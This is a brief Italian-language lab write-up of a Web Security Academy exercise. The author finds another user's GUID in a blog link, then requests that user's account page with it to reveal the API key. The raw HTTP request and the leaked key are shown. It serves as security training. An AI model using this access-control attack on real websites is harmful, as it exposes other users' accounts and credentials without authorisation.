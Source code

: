 
```
Your username is: wiener

Your API Key is: sXua37N0XuQsKwdvNofbF5fDruKbjOWL
```

forse per "triggerare" qualcosa di interessante, bisogna inserire un commento...

https://0aa200a703990b9780e68b7a00080008.web-security-academy.net/post?postId=7

![](_attachments/Pasted%20image%2020240905092047.png)

```html
<span id=blog-author><a href='/blogs?userId=8270a39d-7dc7-41cf-8d81-b3e9f3ce53f2'>wiener</a></span>
```

se trovo un commento di `carlos` dovrei vedere anche il suo GUID

![](_attachments/Pasted%20image%2020240905092347.png)

https://0aa200a703990b9780e68b7a00080008.web-security-academy.net/blogs?userId=019f114e-a51b-4e5f-994f-84e23b1910ab

probabilmente devo agire qui

`GET /my-account?id=8270a39d-7dc7-41cf-8d81-b3e9f3ce53f2 HTTP/2`



faccio questa richiesta con il GUID di carlos

```bash
GET /my-account?id=019f114e-a51b-4e5f-994f-84e23b1910ab HTTP/2
Host: 0aa200a703990b9780e68b7a00080008.web-security-academy.net
..
..
```

response

```html
                       <p>Your username is: carlos</p>
                        <div>Your API Key is: 70WPYBXMKs7MUh857yAAVJY0JR4vw7i7
```

